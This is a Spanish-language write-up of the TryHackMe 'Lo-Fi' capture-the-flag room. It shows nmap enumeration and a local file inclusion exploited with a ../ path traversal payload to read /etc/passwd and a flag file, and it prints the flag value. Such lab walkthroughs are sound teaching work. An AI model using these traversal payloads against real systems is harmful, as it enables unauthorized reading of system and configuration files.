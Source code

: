 ```yaml
---
title: "TryHackMe - Lo-Fi "
date: 2025-10-15
lastmod: 2025-10-15
categories: [TryHackMe]
tags: [Web, TryHackMe, CTF, Linux, LFI, Path Traversal]
toc: true
math: false
mermaid: true
image:
  path: assets/img/TryHackMe/Lo-Fi/logo.png
---
```


## Target
- **Host:** `http://lofi.thm`  
- **Plataforma:** TryHackMe   
- **Nivel:** <span style="color: #66bb6a;">Easy</span>
- **Objetivo:** Encontrar la flag.

---

## Introduccion

Esta máquina es vulnerable a LFI (Local File Inclusion).
Un LFI permite a un atacante que controle un parámetro usado para incluir archivos en el servidor leer ficheros locales (p. ej. /etc/passwd, archivos de configuración) y, en determinadas condiciones del entorno, escalar el impacto. En este writeup mostraré cómo identifiqué y exploté la capacidad de lectura de archivos para la enumeración y obtención de la flag.

## Enumeración

Empiezo enumerando los puertos abiertos para identificar los servicios que corre la máquina. Como siempre, primero añado `lofi.thm` a mi archivo `/etc/hosts` y, a continuación, lanzo `nmap`.

```bash
nmap -T4 -p- -sS -sV -sC -oA nmap/first lofi.thm
```
| Parámetro | Descripción |
| :--- | :--- |
| **-T4** | Aumenta la velocidad del escaneo. |
| **-p-** | Escanea todos los puertos especificados. |
| **-sS** | SYN scan, rápido y eficiente para detectar puertos abiertos. |
| **-sV** | Detecta la versión del servicio. |
| **-sC** | Ejecuta los scripts NSE por defecto. |
| **-oA nmap/first** | Guarda la salida en tres formatos (`.nmap`, `.xml`, `.gnmap`). |
| **lofi.thm** | Host resuelto mediante `/etc/hosts` (evita usar la IP directamente). |

A continuación, se muestra el resultado detallado del escaneo, donde encontramos dos puertos abiertos: el servicio ssh y el servicio web HTTP en Linux.

```text
Starting Nmap 7.80 ( https://nmap.org ) at 2025-10-15 14:35 BST
Nmap scan report for lofi.thm (10.10.90.159)
Host is up (0.00014s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Lo-Fi Music
MAC Address: 02:7D:39:98:AE:E5 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.05 seconds
```

### Enumeración puerto 80

Web Principal

![Web principal](assets/img/TryHackMe/Lo-Fi/website.png)

Al navegar y pulsar en relax observamos la URL ?page=relax.php, lo que sugiere que el parámetro page se usa directamente para cargar archivos, vulnerable a **LFI**:

![relax](assets/img/TryHackMe/Lo-Fi/relax.png)

Cuando intento establecer rutas del sistema, la aplicación responde con un mensaje indicando bloqueo por un WAF u otra protección:

![lfi](assets/img/TryHackMe/Lo-Fi/lfi.png)

Teniendo en cuenta que el servidor web es Apache, intentaremos acceder a la ruta /etc/passwd con path traversal.  

**Path traversal**: usar ../ (o variantes codificadas) para subir en el árbol de directorios y acceder a archivos fuera del directorio web, p. ej. ../../../../etc/passwd.

¿Qué hace ../../../../etc/passwd?
Cada .. sube un nivel en la jerarquía de carpetas. Si concatenas suficientes ../ desde la carpeta donde la web incluye archivos, puedes alcanzar la raíz del sistema y acceder a /etc/passwd. En sistemas modernos /etc/passwd contiene usuarios y UIDs pero no las contraseñas en texto (esas están en /etc/shadow).

Probamos con  ../../../../../etc/passwd y vemos que nos muestra el contenido de /etc/passwd 

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```
![vulnerabilidad](assets/img/TryHackMe/Lo-Fi/vulnerabilidad.png)

Para encontrar la flag una pista que da antes de empezar la maquina es la siguiente:
`find the flag in the root of the filesystem.`
Esta pista nos da varias rutas a pensar:
- /root/
- /

Posibles nombres de archivos donde se  suelen ubican las flags:
- root.txt
- flag.txt

Probamos en el directorio raiz / el archivo flag.txt
![flag](assets/img/TryHackMe/Lo-Fi/flag.png)

Y encontramos la flag :
- `flag{e4478e0eab69bd642b8238765dcb7d18}`